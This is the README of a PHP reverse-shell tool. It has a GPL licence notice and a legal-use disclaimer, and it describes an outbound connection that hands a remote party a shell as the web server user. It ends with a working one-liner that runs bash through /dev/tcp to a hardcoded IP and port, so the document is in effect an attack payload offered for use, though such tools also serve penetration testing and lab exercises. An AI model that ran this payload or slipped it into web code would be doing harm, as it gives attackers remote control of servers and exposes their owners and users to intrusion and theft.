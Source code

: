 # php-reverse-shell
php-reverse-shell - A Reverse Shell implementation in PHP
Copyright (C) 2024

This tool may be used for legal purposes only.  Users take full responsibility
for any actions performed using this tool.  The author accepts no liability
for damage caused by this tool.  If these terms are not acceptable to you, then
do not use this tool.

In all other respects the GPL version 2 applies:

This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License version 2 as
published by the Free Software Foundation.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License along
with this program; if not, write to the Free Software Foundation, Inc.,
51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

This tool may be used for legal purposes only.  Users take full responsibility
for any actions performed using this tool.  If these terms are not acceptable to
you, then do not use this tool.

You are encouraged to send comments, improvements or suggestions to
me at polruiolu@campus.monlau.com

Description
-----------
This script will make an outbound TCP connection to a hardcoded IP and port.
The recipient will be given a shell running as the current user (apache normally).

Limitations
-----------
proc_open and stream_set_blocking require PHP version 4.3+, or 5+
Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.

Usage
-----
See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

```exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'");```
